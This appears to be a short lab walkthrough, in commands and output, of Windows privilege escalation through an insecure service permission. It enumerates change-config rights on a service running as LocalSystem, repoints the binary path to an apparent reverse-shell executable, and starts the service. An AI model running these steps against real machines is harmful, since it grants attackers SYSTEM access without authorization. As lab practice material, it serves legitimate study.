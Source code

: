 **`Service Exploits - Insecure Service Permissions`**

```bash
C:\PrivEsc>accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_CHANGE_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL

```

user have ability to change `SERVICE_CHANGE_CONFIG` 

```bash
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem


```
service start using `SYSTEM privilege` (`SERVICE_START_NAME`)

- Exploit 

1- change binpath (`BINARY_PATH_NAME`)  to payload <br>

```bash

C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\rev.exe\""
sc config daclsvc binpath= "\"C:\PrivEsc\rev.exe\""
[SC] ChangeServiceConfig SUCCESS

```

2- run service
```bash
net start daclsvc
```
